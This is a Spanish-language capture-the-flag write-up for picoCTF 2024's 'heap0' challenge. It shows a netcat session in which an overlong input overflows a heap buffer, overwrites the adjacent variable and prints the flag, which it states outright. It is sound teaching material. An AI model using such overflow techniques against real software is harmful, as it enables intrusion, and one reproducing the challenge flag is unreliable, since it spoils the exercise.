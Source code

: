 ## Objetivo
Are overflows just a stack concern?Download the binary [here](https://artifacts.picoctf.net/c_tethys/28/chall).Download the source [here](https://artifacts.picoctf.net/c_tethys/28/chall.c).

Additional details will be available after launching your challenge instance.

## Pistas

## Solución
1. Dentro de picoCTF iniciar la instancia y copiar el comando
2. Ir a terminal de Linux y hacer lo siguiente:
```
kali@kali:~/Documents/picoCTF/picoCTF2024$ mkdir heap0

kali@kali:~/Documents/picoCTF/picoCTF2024$ cd heap0/

kali@kali:~/Documents/picoCTF/picoCTF2024/heap0$ nc tethys.picoctf.net 60846

Welcome to heap0!
I put my data on the heap so it should be safe from any tampering.
Since my data isn't on the stack I'll even let you write whatever info you want to the heap, I already took care of using malloc for you.

Heap State:
+-------------+----------------+
[*] Address   ->   Heap Data   
+-------------+----------------+
[*]   0x55ea207332b0  ->   pico
+-------------+----------------+
[*]   0x55ea207332d0  ->   bico
+-------------+----------------+

1. Print Heap:          (print the current state of the heap)
2. Write to buffer:     (write to your own personal block of data on the heap)
3. Print safe_var:      (I'll even let you look at my variable on the heap, I'm confident it can't be modified)
4. Print Flag:          (Try to print the flag, good luck)
5. Exit

Enter your choice: 2
Data for buffer: qwertyuiopasdfghjklzxcvbnmqwertyuiopasdfghjklzxcvbnm

1. Print Heap:          (print the current state of the heap)
2. Write to buffer:     (write to your own personal block of data on the heap)
3. Print safe_var:      (I'll even let you look at my variable on the heap, I'm confident it can't be modified)
4. Print Flag:          (Try to print the flag, good luck)
5. Exit

Enter your choice: 1
Heap State:
+-------------+----------------+
[*] Address   ->   Heap Data   
+-------------+----------------+
[*]   0x55ea207332b0  ->   qwertyuiopasdfghjklzxcvbnmqwertyuiopasdfghjklzxcvbnm
+-------------+----------------+
[*]   0x55ea207332d0  ->   uiopasdfghjklzxcvbnm
+-------------+----------------+

1. Print Heap:          (print the current state of the heap)
2. Write to buffer:     (write to your own personal block of data on the heap)
3. Print safe_var:      (I'll even let you look at my variable on the heap, I'm confident it can't be modified)
4. Print Flag:          (Try to print the flag, good luck)
5. Exit

Enter your choice: 4

YOU WIN
picoCTF{my_first_heap_overflow_76775c7c}

```
3.La bandera es :
picoCTF{my_first_heap_overflow_76775c7c}
## Notas adicionales
* Un desbordamiento de montículo o heap overflow es un tipo de desbordamiento del buffer de una computadora donde el buffer puede ser sobrescrito si está asignado en una porción del heap. 
## Referencias
https://cwe.mitre.org/data/definitions/122.html
